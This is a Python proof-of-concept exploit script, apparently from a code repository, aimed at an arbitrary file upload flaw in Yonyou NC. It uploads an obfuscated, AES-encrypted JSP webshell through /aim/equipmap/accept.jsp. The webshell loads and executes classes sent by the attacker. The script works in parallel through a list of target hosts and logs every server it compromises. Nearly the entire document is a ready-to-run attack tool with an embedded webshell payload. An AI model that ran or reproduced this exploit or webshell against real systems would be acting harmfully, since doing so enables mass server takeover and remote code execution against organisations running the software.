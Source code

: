 # POC.py

import requests
import threading
import argparse

webshell = """
<%! String xc = "dfff0a7fa1a55c8c";class X extends ClassLoader {public X(ClassLoader z) {super(z); }public Class Q(byte[] cb) {return super.defineClass(cb, 0, cb.length);}}public byte[] x(byte[] s, boolean m) {try {javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");Class<?> aClass = Class.forName("javax.crypto.spec.SecretKeySpec");java.lang.reflect.Constructor<?>constructor = aClass.getConstructor(byte[].class, String.class);javax.crypto.spec.SecretKeySpec skeySpec = (javax.crypto.spec.SecretKeySpec) constructor.newInstance(xc.getBytes(), "AES");c.init(m ? 1 : 2, skeySpec);byte[] result = (byte[]) c.getClass()./*Z65A8Uf850*/getDeclaredMethod/*Z65A8Uf850*/("doFinal", new Class[]{byte[].class}).invoke(c, new Object[]{s});return result; } catch (Exception e) {return null;}} %><%  try {byte[] Ck05 = new byte[Integer.parseInt(request.getHeader("Content-Length"))]; java.io.InputStream inputStream = request.getInputStream(); int _num = 0; while ((_num += inputStream.read(Ck05, _num, Ck05.length)) < Ck05.length) ; Ck05 = x(Ck05, false); if (session.getAttribute("payload") == null) {session.setAttribute("payload", new X(Thread.currentThread()./*Z65A8Uf850*/getContextClassLoader()).Q(Ck05)); } else {request.setAttribute("parameters", Ck05);Object f = ((Class) session.getAttribute("payload")).newInstance();java.io.ByteArrayOutputStream arrOut = new java.io.ByteArrayOutputStream();f.equals(/*Z65A8Uf850*/arrOut);f.equals(/*Z65A8Uf850*/pageContext);f.toString();response.getOutputStream().write(x(arrOut.toByteArray(), true)); }} catch (Exception e) {} %>
"""
file = {
    "sample_file": "<% out.println('hello young nc');%>",
    "Content-Type": "application/octet-stream",
    "Content-Disposition": "form-data",
    "filename" : webshell
}
data = {
        'fname': "\\webapps\\nc_web\\asdwqe5478.jsp"
}
headers = {
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0",
        'Accept': "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        'Accept-Language': "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        'Accept-Encoding': "gzip, deflate",
        'Connection': "close",
        'Upgrade-Insecure-Requests': '1',
        'Content-Type': 'multipart/form-data'
}

def arrange_url(url_y):
    if url_y.startswith('http://') or url_y.startswith('https://'):
        url = url_y + "/aim/equipmap/accept.jsp"
    else:
        url = "http://" + url_y + "/aim/equipmap/accept.jsp"
    return url
def arrange_exp_url(url_y):
    if url_y.startswith('http://') or url_y.startswith('https://'):
        exp = url_y + "/asdwqe5478.jsp"
    else:
        exp = "http://" + url_y + "/asdwqe5478.jsp"
    return exp
def req(url_y):
    url = arrange_url(url_y)
    # print(url)
    exp = arrange_exp_url(url_y)
    # print(exp)
    try:
        response = requests.get(url, verify=False, timeout=10)
        if response.status_code == 200:
            print("[-]-[-]" + '可能存在漏洞地址:' + url)
    except Exception as e:
        print('链接超时')
def exp(url_y):
    url = arrange_url(url_y)
    # print(url)
    exp = arrange_exp_url(url_y)
    try:
        requests.post(url, headers=headers, data=data, files=file, timeout=10)
        rp = requests.get(exp, verify=False, timeout=10)
        if rp.status_code == 200:
            print("存在用友NC 任意文件上传漏洞")
            print("[+]漏洞地址为: " + exp)
            print("[--]" + "可能存在误差,可根据46行状态码进行修改检测," + "[--]")
            with open('poc_url.txt', 'a') as f1:
                f1.write(exp + '\r')
        else:
            print("上传失败")
            print("不存在用友NC 任意文件上传漏洞")
    except:
        print('链接超时')
def expolit(url):
    req(url)
    exp(url)
if __name__ == '__main__':
    parser = argparse.ArgumentParser(usage='OPTIONS... -f', description='python -f <type>')
    parser.add_argument('-f', type=str, help='<type>')
    args = parser.parse_args()
    f = open(args.f, 'r')
    threadpool = []
    for i in f.readlines():
        th = threading.Thread(target=expolit, args=((i[:-1]),))
        threadpool.append(th)
    for th in threadpool:
        th.start()
    for th in threadpool:
        threading.Thread.join(th)
